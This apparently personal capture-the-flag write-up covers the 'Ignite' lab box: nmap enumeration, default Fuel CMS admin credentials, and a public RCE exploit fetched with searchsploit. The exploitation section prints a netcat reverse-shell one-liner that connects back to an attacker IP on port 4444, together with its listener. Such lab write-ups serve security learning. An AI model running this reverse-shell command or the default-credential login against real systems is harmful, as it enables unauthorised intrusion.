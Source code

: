 # Ignite

## Enumeration

`sudo nmap -vv -sV -sC 10.10.115.230 -oA ignite`

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```
Fuel CMS is installed on this server. It is currently not configured. Default creds (admin:admin) can be used to log into the CMS admin panel. Docs reveal it is at least version 1.4. 

## Exploitation

Exploitation involves using a python2 exploit that allows for remote code execution on the server via fuelcms. This provides access as `www-data`. The remote host IP needs to be changed in the discovered exploit. 

`$ searchsploit fuelcms`

```
drsh0@dnetbook:~/Documents/thm/ignite$ searchsploit fuelcms
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
fuelCMS 1.4.1 - Remote Code Execution                         | linux/webapps/47138.py
-------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

drsh0@dnetbook:~/Documents/thm/ignite$ searchsploit -m linux/webapps/47138.py

drsh0@dnetbook:~/Documents/thm/ignite$ python2 47138_2.py
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.240 4444 >/tmp/f"

```
This listener was set up prior to the remote command being executed to allow a reverse shell to be created.
```
drsh0@dnetbook:~$ nc -nlvp 4444
listening on [any] 4444 ...
```

A reverse connection is successfully created. We have access as the `www-data` user and are able to read `user.txt` in the home directory. 



## Privilege Escalation

:::info
TODO
:::

{%hackmd theme-dark %}